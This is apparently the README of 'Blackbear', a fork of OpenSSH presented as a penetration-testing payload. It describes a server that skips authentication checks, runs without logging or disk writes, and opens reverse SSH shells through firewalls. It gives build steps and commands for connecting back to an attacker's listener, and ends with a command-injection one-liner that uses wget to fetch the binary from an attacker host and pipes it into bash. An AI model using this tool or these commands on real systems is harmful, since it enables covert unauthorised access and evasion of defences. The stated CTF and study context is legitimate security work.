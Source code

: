 # Blackbear: a fork of openssh-portable for penetration testing purposes.

Disclamer: Do not use in production or on any public facing servers. Use only
in penetration testing context, while participating in capture the flag 
competitions or otherwise studying computer security. I've made modifications
which severly degrade the security of the server. 

## Blackbear project goals:

The blackbear server is to be used as main payload for RCE exploits.  

Main goal is to have reliable interactive shell access (must be able to run 
top, sudo, screen, vi, etc) as opposed to crafted reverse shells 
meterpreter which allow basic commands but fail at interactive ones.

Secondary goal is to implement reverse ssh shell operation.  This means 
than the server must be able to establish a tcp connection in addition to
its ability to listen for incoming connections and vice versa.  Once the
server can connect to the client, the ssh protocol happens as usual so
the client which received the connection gets a shell on the server.

As always, reverse shell operation is meant to bypass firewall with spotty
(if any) egress filtering.

Slides and videos of NSEC 2018 talk in nsec18 directory

Additionnal goals:

- be able to run under any user account, must not require root or elevated 
privileges.                                                                
- server must not touch the disk, host keys shall be generated on the fly 
(insecure), authorized keys and configuration must be encoded within the 
binary, no logging.  Only /dev/urandom and other required device files shall 
be used.
- must bypass any and all authentication mecanisms except public key
authentication.  Than is to be able to gain access even if
~/.ssh/authorized_keys does not exists, the account is disabled, the 
account has an invalid shell, etc.

## Quickstart

1. Install zlib and OpenSSL libraries and development files for your distribution

2. Run autoreconf to generate the configure scrip

3. The usual ./configure then make

4. Run the ssh client in listening mode

  e.g: listen on all interfaces, using port 8022
  ./ssh -i id_blackbearkey -r 0.0.0.0 -p 8022

5. Upload sshd binary on the target and run

  e.g: connect back to you on port 8022
  ./sshd -s LHOST -p 8022

You shall receive a shell with the priviledges of the account running sshd

## Easyexecute

patch the binary to make it a bash script that will chmod +x itself
easyexecute.py sshd
then sshd can be piped into bash, see example below

Basic example for Damn Vulnerable Web Application (command injection):

`export ARGS="-s 192.168.122.1 -p 8022"; cd /tmp; wget -r http://192.168.122.1:8080/sshd -O sshd && cat sshd | bash`

INSTALL has more detailed compilation instructions.


